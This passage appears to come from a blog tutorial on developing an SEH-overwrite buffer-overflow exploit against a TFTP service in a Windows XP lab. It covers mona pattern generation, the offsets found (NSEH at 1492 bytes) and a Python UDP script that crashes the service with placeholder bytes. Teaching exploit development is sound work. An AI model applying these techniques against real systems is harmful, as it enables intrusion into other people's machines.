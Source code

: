 [![](https://1.bp.blogspot.com/-LiHSL4gfT_A/UK5Xd9wZnZI/AAAAAAAAAE0/LfIXN3Wwbko/s0/Selection_022.png)](https://1.bp.blogspot.com/-LiHSL4gfT_A/UK5Xd9wZnZI/AAAAAAAAAE0/LfIXN3Wwbko/s0/Selection_022.png)



So we also seem to have overwritten our SEH handler.

Pattern Time!

Next we do a `!mona pc 2000` to generate our metasploit pattern of 2000 characters and replace our A's in the original exploit with this:


[![](https://1.bp.blogspot.com/-ZpgiQdYMrTQ/UK5ZrFFVHCI/AAAAAAAAAE8/SOqhTXg1_Qo/s0/Selection_023.png)](https://1.bp.blogspot.com/-ZpgiQdYMrTQ/UK5ZrFFVHCI/AAAAAAAAAE8/SOqhTXg1_Qo/s0/Selection_023.png)


And the resulting crash:


[![](https://2.bp.blogspot.com/-277BglovLyc/UK5ZzfUkfsI/AAAAAAAAAFE/0p7sEHs2Lkc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_024.png)](https://2.bp.blogspot.com/-277BglovLyc/UK5ZzfUkfsI/AAAAAAAAAFE/0p7sEHs2Lkc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_024.png)



As show in the previous tutorial we then try to find the offsets. We do this by running:


`!mona findmsp`


And the results should be similar to the following:


[![](https://2.bp.blogspot.com/-ikU6y43TroY/UK5cH9L1rMI/AAAAAAAAAFM/Rb_jEk3VNSM/s0/Selection_025.png)](https://2.bp.blogspot.com/-ikU6y43TroY/UK5cH9L1rMI/AAAAAAAAAFM/Rb_jEk3VNSM/s0/Selection_025.png)


 The from this the important things that we gather are:


*   NSEH is overwritten 1492 bytes in.
*   EDX is overwritten 1522 bytes in.
*   ECX is overwritten 1526 bytes in.



Restructuring the Exploit



After taking all this into account we make a new exploit as follows:



```python
import socket 
host = "127.0.0.1"
port = 69 

filename = "A" * 1492
filename += "B" * 4 # NSEH overwrite
filename += "C" * 4 # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```
